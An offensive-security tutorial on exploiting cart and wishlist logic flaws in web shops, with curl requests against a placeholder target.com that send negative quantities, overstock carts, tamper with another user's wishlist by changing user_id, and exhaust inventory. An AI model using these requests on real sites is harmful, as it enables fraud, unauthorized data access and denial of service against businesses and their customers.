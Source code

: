 ```yaml
---
title: Exploiting Cart & Wishlist Vulnerabilities in Web Apps
description: Learn to exploit cart and wishlist vulnerabilities in web apps for unauthorized
  access and manipulation.
keywords:
- cart wishlist exploitation
- business logic flaws
- negative quantity handling
- inventory abuse
- cross-user tampering
---
```


# Cart/Wishlist Exploitation

## Context

The purpose of this guide is to enable offensive security practitioners to exploit business logic vulnerabilities within web applications, specifically targeting cart and wishlist functionalities. These features often contain flaws that can be manipulated for unauthorized benefits or to disrupt business processes. To fully engage with this content, readers should have an understanding of HTTP requests, session management, web application architecture, and business logic errors.

## Theory

### Cart and Wishlist Feature Logic

Carts and wishlists are essential components of e-commerce platforms, allowing users to select products for purchase or future interest. However, these features can harbor business logic flaws if the application workflows do not adequately enforce intended rules and constraints, leading to exploitation opportunities.

### Common Exploitable Logic Flaws

Several types of vulnerabilities can arise in cart and wishlist functionalities:

- **Negative Quantity Handling**: When an application fails to properly validate quantities in a shopping cart, users might exploit the logic by inputting negative numbers, possibly reducing their total cost or gaining credits.
- **Overstock Cart Abuse**: This involves adding more items to a cart than the inventory system allows, often bypassing stock limitations enforced by the backend.
- **Wishlist Manipulation**: Inadequate access controls may enable unauthorized users to view or modify other users' wishlists.
- **Cross-User Cart Tampering**: Weak session management can lead to unauthorized tampering with another user's cart.
- **Cart Inventory Abuse**: Manipulating stock levels could deny availability to legitimate users or cause back-end processing errors.

### Attack Surface and Threat Model

Attacks typically involve manipulating cart and wishlist parameters using crafted HTTP requests. Attackers target weaknesses in input validation, session isolation, and authorization logic.

### Security Controls and Weaknesses

Certain controls, when absent or improperly implemented, contribute to these vulnerabilities:

- **Lack of CSRF Protection**: This enables unauthorized cart and wishlist actions.
- **Insufficient Input Validation**: Permits negative or excessively high quantities in cart manipulation.
- **Missing Authorization Checks**: Allows cross-user data access or unauthorized modifications.

## Practice

### Negative Quantity Cart Exploit

To exploit the handling of negative quantities in a cart:

- Intercept a cart update request and modify the quantity to a negative value. This alters the expected logic of purchase calculations.
  
  ```bash
  curl -b cookies.txt -X POST 'https://target.com/cart/update' -H "Content-Type: application/x-www-form-urlencoded" -d 'item_id=123&quantity=-5'
  ```

  Outcome: Successful execution may result in a manipulated cart total, possibly granting credits or free items.

### Overstock Cart Abuse

Exploiting overstock cart abuse involves:

- Adding more items to a cart than currently available in inventory to test stock enforcement.

  ```bash
  curl -b cookies.txt -X POST 'https://target.com/cart/add' -d 'item_id=456&quantity=9999'
  ```

  Outcome: Bypassing inventory logic could block others from purchasing or trigger application errors.

### Cross-User Wishlist Manipulation

To exploit cross-user wishlist manipulation:

- Access or modify another user's wishlist by altering user identifiers in the HTTP request. This tests the robustness of authorization mechanisms.

  ```bash
  curl -b cookies.txt 'https://target.com/wishlist/view?user_id=42'
  ```

  ```bash
  curl -b cookies.txt -X POST 'https://target.com/wishlist/add' -d 'user_id=42&item_id=789'
  ```

  Outcome: Unauthorized access or modification of another user's wishlist demonstrates flaw exploitation.

### Cart Inventory Abuse for Denial of Service

To perform a denial of service against cart inventory:

- Add all of the available stock of a specific product to a cart, preventing other users from purchasing it.

  ```bash
  curl -b cookies.txt -X POST 'https://target.com/cart/add' -d 'item_id=321&quantity=100'
  ```

  Outcome: This can exhaust product availability, denying service to other users.

## Tools

- **Burp Suite**
- **OWASP ZAP**
- **curl** 

These tools aid in the interception and crafting of HTTP requests, necessary for exploiting cart and wishlist vulnerabilities.